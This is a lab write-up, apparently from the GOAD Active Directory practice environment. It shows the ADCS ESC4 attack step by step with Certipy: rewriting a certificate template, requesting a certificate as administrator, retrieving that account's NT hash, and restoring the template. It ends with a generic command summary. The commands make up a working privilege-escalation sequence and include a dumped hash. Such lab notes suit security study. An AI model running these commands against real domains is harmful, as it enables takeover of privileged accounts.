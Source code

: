 ESC4 exploits certificate templates in Active Directory Certificate Services (ADCS) that grant Full Control permissions, allowing attackers to modify the templates to include fields like subjectAltName (SAN). This enables the attacker to request a certificate for any user, including privileged accounts, by specifying an arbitrary SAN. Combining ESC4 with ESC1, the attacker can use the obtained certificate to impersonate high-privilege users.

![[Pasted image 20241006155102.png]]

Saving the template and making it vulnerable to the ESC1 attack:

```bash
garffff@garffff:~/pentest/GOAD/esc3$ certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Verifying template change:

![[Pasted image 20241006155529.png]]

Certificate request:

```bash
garffff@garffff:~/GOAD/esc3$  certipy req -u khal.drogo@essos.local -p 'horse' -template ESC4 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 36
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Authenticating and retrieving target users NTLMv1 hash:

```bash
garffff@garffff:~/GOAD/esc3$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

Restoring template to its original configuration:

```bash
garffff@garffff:~/GOAD/esc3$ certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Verifying:

![[Pasted image 20241006155755.png]]

### Summary

```bash
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old -dc-ip <dc_ip>
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain> -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
certipy template -u <user>@<domain> -p '<password>' -template <template> -configuration <template>.json -dc-ip <adcs_ip>
```
